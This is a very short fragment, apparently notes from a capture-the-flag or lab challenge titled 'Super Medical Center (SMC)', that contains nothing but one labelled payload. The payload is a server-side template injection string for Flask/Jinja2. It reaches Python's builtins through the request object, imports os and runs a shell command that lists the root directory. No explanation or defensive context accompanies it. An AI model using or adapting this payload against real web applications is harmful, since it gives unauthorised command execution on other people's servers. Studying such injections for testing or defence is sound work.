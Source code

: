 # Super Medical Center (SMC)

Payload:
{{request.application.\__globals\__.\__builtins\__.\__import\__('os').popen('ls /').read()}}
